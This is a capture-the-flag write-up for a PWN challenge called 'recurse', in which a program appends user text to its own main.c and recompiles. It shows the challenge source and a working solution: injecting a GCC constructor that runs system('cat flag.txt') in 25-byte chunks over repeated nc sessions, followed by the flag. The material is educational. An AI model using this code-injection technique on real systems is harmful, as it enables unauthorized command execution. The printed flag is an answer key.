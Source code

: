 # recurse

Category: PWN

Points: 178

Solves: 65

>I hate loops.

### Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

int get(char* buf, int n) {
    fflush(stdout);
    if (fgets(buf, n, stdin) == NULL) {
        puts("Error");
        exit(1);
    }
    int end = strcspn(buf, "\n");
    if (buf[end] == '\0') {
        puts("Too long");
        exit(1);
    }
    buf[end] = '\0';
    return end;
}

int main(void) {
    fputs("Filename? ", stdout);
    char fname[10];
    int fn = get(fname, sizeof(fname));
    for (int i = 0; i < fn; ++i) {
        char c = fname[i];
        if (('a' <= c && c <= 'z') || c == '.') {
            continue;
        }
        puts("Only a-z and .");
        return 1;
    }
    if (strstr(fname, "flag.txt") != NULL) {
        printf("Nice try!");
        return 1;
    }
    FILE* file = fopen(fname, "a+b");

    fputs("Read (R) or Write (W)? ", stdout);
    char option[3];
    get(option, sizeof(option));

    switch (option[0]) {
        case 'R': {
            char contents[25];
            int n = fread(contents, 1, sizeof(contents), file);
            fputs("Contents: ", stdout);
            fwrite(contents, 1, n, stdout);
            puts("");
            break;
        }
        case 'W': {
            fputs("Contents? ", stdout);
            char contents[25];
            int n = get(contents, sizeof(contents));
            fwrite(contents, 1, n, file);
            break;
        }
        default: {
            puts("Invalid");
            return 1;
        }
    }

    fclose(file);
    fflush(stdout);

    int ret = system("gcc main.c -o main");
    if (!WIFEXITED(ret) || WEXITSTATUS(ret)) {
        puts("Compilation failed");
        return 1;
    }
    execl("main", "main", NULL);
}
```

We are given C code that takes in a filename as an input and we are allowed to read the first 25 bytes or write 25 bytes to the end of the file. The only restriction we seem to have is that we can't just directly read `flag.txt`. After we write to the file, the program attempts to recompile itself. If it fails, we get disconnected, and if it succeeds, the program will recursively call itself.

We can quickly see that there is a vulnerability where we can write arbitrary code into `main.c`, but it doesn't seem to be useful just yet as anything written after the main function won't be run in time. After a bit of research we can find ```__attribute__((constructor))``` in gcc, which will make a function run on startup. Unfortunately, this isn't less than `25` chars long. After a bit of fidling with macros and other ways to short the code, I realized that it doesn't mater if we compile error.

There is the `main.c` file and `main` binary on the server. After we write data to `main.c` it will stay there permenantly. If we get a compile error, we essentially have updated `main.c` but not `main`. So when we connect to the server again we can keep running the working `main` while updating `main.c`. Finally, once we have a compiling `main.c`, we have injected our code: ```__attribute__((constructor)) void a(){system("cat flag.txt");}``` and will get the flag:

```bash
$ nc 34.31.154.223 50359
Filename? main.c       
Read (R) or Write (W)? W
Contents? __attribute__
Compilation failed
$ nc 34.31.154.223 50359
Filename? main.c
Read (R) or Write (W)? W
Contents? ((constructor)) 
Compilation failed
$ nc 34.31.154.223 50359
Filename? main.c
Read (R) or Write (W)? W
Contents? void a(){system
Compilation failed
$ nc 34.31.154.223 50359
Filename? main.c
Read (R) or Write (W)? W
Contents? ("cat flag.txt");}
LITCTF{4_pr0gr4m_7h4t_m0d1f13s_1t5elf?_b34u71ful!_a1cd446b}
Filename? ^C
```

### Flag

```LITCTF{4_pr0gr4m_7h4t_m0d1f13s_1t5elf?_b34u71ful!_a1cd446b}```


